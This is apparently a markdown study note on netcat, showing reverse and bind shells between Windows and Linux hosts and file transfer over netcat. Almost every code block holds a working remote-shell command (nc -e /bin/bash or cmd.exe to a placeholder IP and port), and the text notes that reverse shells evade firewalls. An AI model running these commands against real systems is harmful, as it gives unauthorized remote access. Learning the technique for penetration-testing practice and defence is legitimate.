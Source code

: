 examples:
```bash
winbox: >nc.exe -nvLp [port] #windows box listens on specified port.
linuxbox: $ nc -nv [ip] [port] -e /bin/bash #linux box transmits shell to windows box
winbox: gains shell on linux box
```

This flow can be reversed to transmit shell from a windows box or linux box.
Reverse shells are great for evading windows firewalls, since usually communications are blocked inwards but not outwards. 

#### Bind Shell: shell is *binded* to port during listen command.
examples:
```bash
linuxbox: $ nc -nvlp [port] -e /bin/bash
winbox: >nc.exe -nv [ip] [port] 
winbox: gains shell on linux box
```
Important to note now that the difference between reverse and bind shell. During listening phase in the flow, instead of just specifying a port to listen. It calls up the shell to be binded on that port. Any computer that then connects to the box on that port will gain a shell on the machine listening. Usually does not work when a firewall is present due to the need to receive connections.

#### Examples of Reverse Shells:

Kali -> Windows:

```bash
winbox: >nc.exe -nvLp [port] #windows listens on port
linuxbox: $ nc -nv [ip] [port] -e /bin/bash #transmits shell to windows box
```

Windows -> Kali:

```bash
linuxbox: $ nc -nvlp [port] #linux listens on port
winbox: >nc.exe -nv [ip] [port] -e cmd.exe  #transmits cmd to linux box
```
#### Examples of Bind Shells:

Kali -> Linux:
```bash
linuxbox: $ nc -nvlp [port] -e /bin/bash #linux listens and binds shell on port
winbox: >nc -nv [ip] [port] #connects to linux box with binded shell
```
Windows -> Linux:
```bash
winbox: >nc.exe -nvLp [port] -e cmd.exe #windows listens and binds cmd on port
linuxbox: $ nc -nv [ip] [port] #connects to windows box with binded cmd
```

#### Sending of Files Over NetCat:

Linux -> Windows:
```bash
winbox: >nc -nvLp [port] > incoming.exe #listens on port and sends data to executable
linuxbox: $ nc -nv [ip] [port] < outgoing #transmits data to windows box which fills
					#incoming.exe
```
Windows -> Linux:
```bash
linuxbox: $ nc -nvlp [port] > incoming #listens on port and sends data to executable
winbox: >nc -nv [ip] [port] < outgoing #transmits data to linux box which which fills
				      #incoming
```
